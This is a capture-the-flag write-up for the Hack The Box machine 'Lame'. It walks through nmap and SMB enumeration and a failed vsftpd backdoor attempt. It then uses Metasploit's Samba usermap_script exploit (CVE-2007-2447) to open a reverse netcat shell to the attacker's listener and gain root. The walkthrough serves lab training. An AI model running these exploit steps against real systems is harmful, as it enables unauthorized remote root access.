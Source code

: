 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - metasploit
  - vsftpd
  - samba
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/lame) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
nmap -T4 -p- -sC -sV 10.10.10.3

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
...
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals `vsFTPd 2.3.4` , `OpenSSH` and `Samba` running on the target server. 

### FTP
---
The FTP server is configured to allow for anonymous login. Login was successful with the username anonymous and an empty password, but there were no files available for enumeration:

```
ftp 10.10.10.3   

Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7124|).
150 Here comes the directory listing.
226 Directory send OK.
```

Does this version of the service have vulnerabilities? Indeed, it does. The backdoor vulnerability was assigned [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) and an exploit was found in `Metasploit`.

```
Matching Modules
================

#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

We ran the module, but the exploit failed to create a session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

We move on to the other services for potential exploitations.

### SMB
---
We enumerate the `smb` service using `smbclient`:

```
smbclient -N -L \\\\10.10.10.3\\  

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbclient` reveals that Samba 3.0.20 is running on the target. We have access to the `tmp` share and do not see anything of interest:

```
smbclient -N \\\\10.10.10.3\\tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan  4 17:10:33 2025
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Sat Jan  4 16:08:11 2025
  vmware-root                        DR        0  Sat Jan  4 16:08:54 2025
  .X11-unix                          DH        0  Sat Jan  4 16:08:40 2025
  .X0-lock                           HR       11  Sat Jan  4 16:08:40 2025
  5532.jsvc_up                        R        0  Sat Jan  4 16:09:18 2025
  vgauthsvclog.txt.0                  R     1600  Sat Jan  4 16:08:10 2025

                7282168 blocks of size 1024. 5386548 blocks available
```

### Foothold
---

We use found vulnerability for this version of Samba using `searchsploit` and confirm the its module in `Metasploit`:

```
searchsploit "Samba 3.0.20"

-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - `Username` map script` Command Execution (Metasploit)      | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                 | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                         | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

msf6 > search "Samba 3.0.20"

Matching Modules
================

#  Name                                Disclosure Date  Rank       Check  Description
-  ----                                ---------------  ----       -----  -----------
0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

According to NIST, [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) stems from the MS-RPC functionality in `smbd` in Samba 3.0.0 through 3.0.25rc3. Remote attackers may execute arbitrary commands via shell metacharacters involing the `SamrChangePassword` function when the `username map script` option is enabled in `smb.conf`. Remote authenticated users may execute commands via shell metacharacters involving other MS-RPC functions in the remote printer and file share management.

We used Metasploit to exploit this vulnerability and obtained root privileges:

```
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
msf6 exploit(multi/samba/usermap_script) > set LPORT 443
msf6 exploit(multi/samba/usermap_script) > run
                                                                             
[*] Started reverse TCP handler on 10.10.14.8:443                            
[*] Command shell session 1 opened (10.10.14.8:443 -> 10.10.10.3:36651) at 2025-01-04 18:22:17 -0500
                                                                             
id                                                                           
uid=0(root) gid=0(root)   
```

The user flag can be found at `/home/makis/user.txt`, and the root flag can be found at
`/root/root.txt`.
